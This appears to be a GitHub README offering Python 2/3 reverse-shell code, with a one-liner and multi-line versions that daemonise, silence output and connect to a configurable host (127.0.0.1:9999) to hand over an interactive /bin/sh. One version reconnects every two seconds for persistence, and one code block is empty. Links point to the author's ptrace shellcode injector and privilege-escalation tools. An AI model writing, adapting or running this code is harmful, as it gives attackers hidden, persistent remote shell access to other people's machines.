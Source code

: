 # python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

Just change the part: "127.0.0.1",9999

Simple reverse shell:
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

Infinite loop reverse shell each 2 seconds:
```
```


I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

http://jagt.github.io/python-single-line-convert/
